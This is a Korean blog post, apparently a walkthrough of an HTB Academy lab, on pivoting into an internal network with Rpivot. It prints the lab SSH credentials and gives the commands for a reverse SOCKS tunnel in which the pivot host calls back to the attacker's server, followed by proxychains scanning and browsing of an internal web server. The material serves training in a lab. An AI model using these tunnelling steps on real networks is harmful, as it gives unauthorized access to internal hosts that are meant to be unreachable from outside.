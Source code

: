 ```yaml
---
title: "Web Server Pivoting with Rpivot"
date: 2025-09-30
layout: single
excerpt: "Rpivot은 Python으로 작성된 역방향(Reverse) SOCKS 프록시 도구로, 내부망 호스트가 외부 서버로 연결을 맺고, 외부 서버 측에서 SOCKS 프록시 포트를 열어주어 공격자가 프록시를 통해 내부망에 접근할 수 있게 한다."
author_profile: true
toc: true
toc_label: "Rpivot Pivoting"
toc_icon: "network-wired"
toc_sticky: true
tags: [networking, ssh, tunneling, pivoting, socks, reverse]
categories: [network]
header:
  teaser: /assets/network-screenshots/rpivot/rpivot-network.png
  teaser_home_page: true
---
```


**Rpivot**은 Python으로 작성된 **역방향(Reverse) SOCKS 프록시 도구**로, 내부망 호스트가 외부 서버로 연결을 맺고, 외부 서버 측에서 **SOCKS 프록시 포트**를 열어주어 공격자가 프록시를 통해 내부망에 접근할 수 있게 한다.

---

# 시나리오

![Rpivot Pivot Diagram](/assets/network-screenshots/rpivot/rpivot-network.png)

Rpivot을 이용해 공격자가 외부에서 내부 웹 서버로 접근하는 구조이다.

내부망(`172.16.5.0/23`)에 존재하는 **웹 서버(`172.16.5.135`)**가 있고,  
공격자는 외부 네트워크(HTB Lab)에서 이 웹 서버를 직접 스캔하거나 브라우징을 할수있다.

---

# 설치

먼저 `rpivot` 저장소를 클론한다.

```bash
$ git clone https://github.com/klsecservices/rpivot.git 

Cloning into 'rpivot'...
remote: Enumerating objects: 37, done.
remote: Total 37 (delta 0), reused 0 (delta 0), pack-reused 37 (from 1)
Receiving objects: 100% (37/37), 51.20 KiB | 3.66 MiB/s, done.
Resolving deltas: 100% (6/6), done.
```

`rpivot`은 **Python 2.7 환경에서 동작**하므로 우선 Python 2.7을 설치해야 한다.

```bash
$ sudo apt-get install python2.7
```

에러가 발생할 경우, 이때는 `pyenv`를 사용하여 별도로 2.7 버전을 설치할 수 있다.

```bash
$ curl https://pyenv.run | bash
$ echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
$ echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
$ echo 'eval "$(pyenv init -)"' >> ~/.bashrc
$ source ~/.bashrc
$ pyenv install 2.7
$ pyenv shell 2.7
```

--- 

# 실습

## server.py 활성화

공격자 로컬 머신에서 `rpivot` 디렉토리로 이동 후 **SOCKS 프록시 서버(server.py)**를 실행한다.

```bash
$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

- **--proxy-port 9050** : 로컬에서 프록시 트래픽을 받을 포트 (SOCKS5)
- **--server-port 9999** : 클라이언트(피벗 호스트)가 접속할 포트
- **--server-ip 0.0.0.0** : 모든 인터페이스에서 연결 허용

이후, `scp` 명령어를 이용하여 문제에서 제공한 SSH 서버(`ubuntu:HTB_@cademy_stdnt!`) 로 전송을 하였다.

```bash
$ scp -r rpivot ubuntu@10.129.179.177:/home/ubuntu
```

전송 완료 후, 제공된 계정으로 피벗 호스트에 SSH 접속하였다.

```bash
$ ssh ubuntu@10.129.179.177
```

## client.py 활성화

`scp`로 전송한 **rpivot 디렉토리**로 이동한 뒤, `client.py` 스크립트를 실행한다.

```bash
$ python2.7 client.py --server-ip 10.10.15.86 --server-port 9999
```

로컬 호스트에서 **SOCKS 프록시 서버(server.py)** 를 실행해 두었던 터미널을 확인하면, 피벗 호스트가 성공적으로 접속한 로그가 출력된다.

```bash
New connection from host 10.129.179.177, source port 36508
```

이후, 내부망 웹 서버 `172.16.5.135`의 80 번 포트를 `proxychains`를 적용하여 확인하였다.

```bash
$ proxychains nc -vz 172.16.5.135 80

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.5.135:80  ...  OK
172.16.5.135 [172.16.5.135] 80 (http) open : Operation now in progress
```

출력 결과에서 `80 (http) open` 메시지를 통해 해당 포트가 열려 있음을 확인할 수 있다.

## proxychains 웹 사이트 연결 && Flag 획득

로컬 호스트에서 `proxychains`를 적용하여 내부망 웹 사이트에 접속하였다.

```bash
$ proxychains firefox-esr 172.16.5.135:80
```

정상적으로 내부망 웹 페이지 접속에 성공했고, 웹 페이지에 적혀 있는 플래그를 확인하여 획득하였다.

![Rpivot Pivot Diagram](/assets/network-screenshots/rpivot/flag.png)

이로써 **Rpivot** 사용법에 대한 실습을 마무리하였다.